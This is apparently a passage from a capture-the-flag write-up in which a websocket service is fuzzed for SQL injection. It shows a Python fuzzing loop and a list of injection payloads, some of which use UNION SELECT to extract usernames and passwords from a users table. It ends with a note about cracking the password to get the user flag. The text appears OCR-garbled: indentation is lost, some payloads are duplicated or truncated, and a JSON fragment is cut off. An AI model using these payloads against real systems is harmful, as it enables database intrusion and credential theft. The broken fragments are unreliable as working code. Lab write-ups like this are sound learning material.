 ~~~python
#print(f"Sending {data}")

ws.send(data)

#print("Sent")

#print("Receiving...")

result = ws.recv()

if "Invalid version" not in result and 0 != len(result):

print(f"Received {result} with payload: {data}")

ws.close()

t.sleep(0.2)
~~~
while fuzzing you should get some successful payloads.  To escalate it further you can use the payload list bellow to get the username and password.
~~~sql
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --


-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@

1 AND (SELECT * FROM Users) = 1	

' AND MID(VERSION(),1,1) = '5';

' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
'0.0.3" UNION SELECT group_concat(answer),"2","3","4" FROM answers;-- -'
SELECT name, description, price FROM products WHERE category=1 AND 1=2 UNION SELECT table_schema, table_name, 1 FROM information_schema.table
'0.0.3" UNION SELECT group_concat(answer),"2","3","4" FROM answers;-- -'
'0.0.3" UNION SELECT username,password,"3","4" from users;-- -'
~~~

~~~json
{"message": {"id": "Hello Json,\n\nAs if now we support PNG formart only. We will be adding JPEG/SVG file formats in our next version.\n\nThomas Keller,Hello Mike,\n\n We have confirmed a valid problem with handling non-ascii charaters. So we suggest you to stick with ascci printable characters for now!\n\nThomas Keller
~~~


# Foot hold
After cracking the password now you can get the user flag
